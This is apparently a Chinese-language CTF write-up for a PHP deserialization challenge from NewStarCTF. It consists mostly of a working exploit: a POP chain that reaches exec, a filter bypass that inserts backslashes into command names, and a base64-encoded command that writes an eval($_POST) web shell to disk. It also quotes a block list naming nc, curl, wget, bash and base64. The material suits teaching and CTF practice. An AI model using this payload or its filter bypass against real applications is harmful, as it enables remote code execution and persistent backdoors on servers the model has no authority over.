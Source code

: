 ```php
if(isset($_POST['payload'])){
    //wanna try?
    unserialize($_POST['payload']);
}

```

有很多符号被过滤，我们没有办法绕过

字母的话 我可以 用 反斜杠绕过

 

反序列化的话 `__toString` 触发通过  `__destruct`来实现，



exec 命令执行没有回显，我们只能尽力去 进行保存文件，但是这里 过滤 了 `<> .` 我们很难直接去保存文件

好在 linux 在 命令里面插入 `\` 也能执行，我们可以用此方法来进行命令执行，保存文件，注入代码。



使用拼接字母绕过匹配

### exp

```php
<?php

use minipop as GlobalMinipop;

class minipop{
    public $code;
    public $qwejaskdjnlka;
    public function __toString()
    {
        if(!preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|tee|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $this->code)){
            // exec($this->code);
            echo PHP_EOL . "1" . PHP_EOL;
        }
        return "alright";
    }
    public function __destruct()
    {
        echo $this->qwejaskdjnlka;
    }
}

// ZWNobyAiPD9waHAgZXZhbChcJF9QT1NUWzEyXSk7Pz4iPjEucGhw
// echo "<?php eval(\$_POST[12]);\?\>">1.php
$a = new GlobalMinipop();
$a->code="echo ZWNobyAiPD9waHAgZXZhbChcJF9QT1NUWzEyXSk7Pz4iPjEucGhw|b\a\se64 -d|b\a\s\h";
$b = new GlobalMinipop();
$b->qwejaskdjnlka = $a;

echo serialize($b);

```

![image-20231020172749999](2023-10-20-NewStarCTF反序列化.assets/image-20231020172749999.png)

![image-20231020172758457](2023-10-20-NewStarCTF反序列化.assets/image-20231020172758457.png)